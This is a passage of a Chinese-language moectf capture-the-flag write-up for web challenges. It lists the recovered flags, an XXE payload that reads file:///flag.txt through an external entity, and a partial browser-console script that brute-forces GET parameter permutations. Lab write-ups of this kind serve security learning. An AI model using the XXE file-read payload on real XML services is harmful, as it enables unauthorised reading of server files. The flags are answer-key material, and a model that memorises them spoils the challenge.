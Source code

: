 ```
moectf{99f51414-4d1b-2df7-66bf-f5cd6765e858}
```

## 10 第十章 天机符阵

> **「星殒禁域·启！」**

非预期解，正解在`revenge`中。

`URL`后添加`/flag.txt`即可。

```
moectf{G00d_7o6_4nD_XX3_Unl0ck_St4r_S34l}
```

## 10 第十章 天机符阵_revenge

> flag在flag.txt里面

提示了`xxe`漏洞。

```
<阵枢>引魂玉</阵枢>
<解析>未定义</解析>
<输出>未定义</输出>
```

```xml
<!DOCTYPE 契约 [
    <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<root>
    <阵枢>引魂玉</阵枢>
    <解析>&xxe;</解析>
    <输出>守玉人残魂</输出>
</root>
```

```
moectf{b36161fc-07ae-4cc9-0bda-3673f258ab01}
```

## 11 第十一章 千机变·破妄之眼

> HDdss看到了 **GET** 参数名由`m,n,o,p,q`这五个字母组成（每个字母出现且仅出现一次），长度正好为 5，虽然不清楚字母的具体顺序，但是他知道**参数名等于参数值**才能进入。

查看一下源代码，我们直接在控制台按提示要求爆破。

```javascript
function* permutations(arr, n = arr.length) {
  if (n === 1) yield arr.slice();
  else for (let i = 0; i < n; i++) {
    yield* permutations(arr, n - 1);
    [arr[n % 2 ? 0 : i], arr[n - 1]] = [arr[n - 1], arr[n % 2 ? 0 : i]];
  }
}

async function bruteForce() {
  const chars = ['m', 'n', 'o', 'p', 'q'];
  const targetUrl = window.location.origin + window.location.pathname;

  for (const param of permutations(chars)) {
    const paramStr = param.join('');
    
    const response = await fetch(`${targetUrl}?${paramStr}=${paramStr}`, {
      credentials: 'include',
      headers: {'X-Requested-With': 'XMLHttpRequest'}
    });
```